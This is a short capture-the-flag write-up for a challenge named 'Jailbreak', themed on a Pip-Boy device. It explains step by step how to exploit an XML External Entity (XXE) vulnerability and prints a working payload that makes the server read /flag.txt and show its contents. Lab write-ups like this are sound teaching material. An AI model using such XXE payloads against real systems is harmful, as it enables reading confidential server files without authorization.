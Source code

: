 # Jailbreak (<font color=green>Very Easy</font>)


## Description
The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt

## Tool Used

- Web Browser

## Skill Learned

- XML External Entity (XXE) vulnerability

## Steps
1. Identify the page where scripts can be input and its vulnerability. In this case, XML can be enter which is vulnerable to XML External Entity (XXE).
2. Craft the external entity declaration. 
    ```
    <!DOCTYPE FirmwareUpdateConfig [
    <!ENTITY xxe SYSTEM "file:///flag.txt">
    ]>
    ```
3. Insert the entity reference ``&xxe;`` inside valid XML element. Since they display the version after successful update, entity reference can be in version to display the flag when the payload is submitted.
    ```
    <FirmwareUpdateConfig>
        <Firmware>
            <Version>&xxe;</Version>
            ...
        </Firmware>
    ```
4. Craft payload. Add external entity declaration at start and preserve the rest of the XML structure exactly as expected only changing version XML element.
5. Submit the crafted XML configuration file and retrieve the flag
